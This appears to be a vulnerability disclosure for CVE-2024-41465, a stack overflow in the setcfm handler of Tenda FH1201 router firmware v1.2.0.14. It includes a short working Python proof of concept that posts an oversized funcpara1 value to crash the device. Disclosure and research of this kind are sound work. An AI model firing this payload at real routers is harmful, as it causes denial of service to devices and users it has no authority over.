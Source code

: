 # setcfm

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41465

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a stack overflow vulnerability located in the setcfm function.The parameter funcpara1 is copied to stackspace v10 via the sprintf function without checking the length,so an attacker can cause a denial of service attack by controlling the page parameter

![image-20240724100556341](./image-20240724100556341.png)

![image-20240724100625056](./image-20240724100625056.png)

### poc

```python
import requests

ip = '192.168.74.145'

url = "http://" + ip + "/goform/setcfm"


data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}


response = requests.post(url, data=data)
print(response.text)

```



![image-20240724100713804](./image-20240724100713804.png)
